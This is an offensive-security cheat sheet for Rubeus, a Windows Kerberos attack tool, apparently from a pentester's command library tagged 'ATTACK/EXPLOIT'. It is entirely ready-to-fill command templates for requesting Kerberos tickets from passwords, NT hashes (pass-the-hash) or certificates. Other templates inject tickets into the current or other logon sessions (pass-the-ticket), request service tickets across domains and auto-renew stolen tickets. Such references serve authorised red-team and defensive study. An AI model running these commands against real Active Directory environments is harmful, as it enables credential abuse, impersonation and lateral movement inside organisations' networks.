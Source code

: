 # rubeus

% ad, windows, rubeus

#plateform/windows #target/local 


## asktgt - (cred)
/rc4, /aes128, /aes256, /des
#cat/ATTACK/EXPLOIT  
```powershell
.\Rubeus.exe asktgt /user:<user> /domain:<domain_fqdn> /password:<password> /nowrap
```

## asktgt - (pth)
/rc4, /aes128, /aes256, /des
#cat/ATTACK/EXPLOIT  
```powershell
.\Rubeus.exe asktgt /user:<user> /domain:<domain_fqdn> /rc4:<nt_hash> /nowrap
```

## asktgt - (cert)
/rc4, /aes128, /aes256, /des
#cat/ATTACK/EXPLOIT  
```powershell
.\Rubeus.exe asktgt /user:<user> /domain:<domain_fqdn> /dc:<dc_name> /getcredentials /certificate:<file_or_b64> /password:<pfx_password> /nowrap
```

## asktgt - and inject in current session (cred)
/rc4, /aes128, /aes256, /des
#cat/ATTACK/EXPLOIT  
```powershell
.\Rubeus.exe asktgt /user:<user> /domain:<domain_fqdn> /password:<nt_hash> /nowrap /ptt
```

## asktgt - and inject in current session (pth)
/rc4, /aes128, /aes256, /des
#cat/ATTACK/EXPLOIT  
```powershell
.\Rubeus.exe asktgt /user:<user> /domain:<domain_fqdn> /rc4:<nt_hash> /nowrap /ptt
```

## asktgt - and inject in another session (cred)
/rc4, /aes128, /aes256, /des
#cat/ATTACK/EXPLOIT  
```powershell
.\Rubeus.exe asktgt /user:<user> /domain:<domain_fqdn> /password:<nt_hash> /nowrap /ptt /luid:<luid>
```

## asktgt - and inject in another session (pth)
/rc4, /aes128, /aes256, /des
#cat/ATTACK/EXPLOIT  
```powershell
.\Rubeus.exe asktgt /user:<user> /domain:<domain_fqdn> /rc4:<nt_hash> /nowrap /ptt /luid:<luid>
```

## asktgt - TGT from nt_hash and inject ticket (pth)
#cat/ATTACK/CONNECT 
```
.\Rubeus.exe asktgt /user:<user> /domain:<domain_fqdn> /rc4:<nt_hash> /nowrap /ptt
```

## asktgs -  ptt (current session)
#cat/ATTACK/EXPLOIT  
```powershell
.\Rubeus.exe asktgs /ticket:<kirbi_path_or_b64_blob> /service:<spn_comma_sep_list> /nowrap /ptt
```

## asktgs - ptt other dc/domain (current session)
#cat/ATTACK/EXPLOIT  
```powershell
.\Rubeus.exe asktgs /ticket:<kirbi_path_or_b64_blob> /service:<spn_comma_sep_list> /dc:<dst_dc_fqdn> /nowrap /ptt
```

## asktgs - ptt (other session)
#cat/ATTACK/EXPLOIT  
```powershell
.\Rubeus.exe asktgs /ticket:<kirbi_path_or_b64_blob> /service:<spn_comma_sep_list> /nowrap /ptt /luid:<luid>
```

## renew - and inject  
#cat/ATTACK/EXPLOIT  
```powershell
.\Rubeus.exe renew /ticket:<kirbi_path_or_b64_blob> /nowrap /ptt
```

## renew - autorenew and inject 
#cat/ATTACK/EXPLOIT  
```powershell
.\Rubeus.exe renew /ticket:<kirbi_path_or_b64_blob> /nowrap /ptt /autorenew
```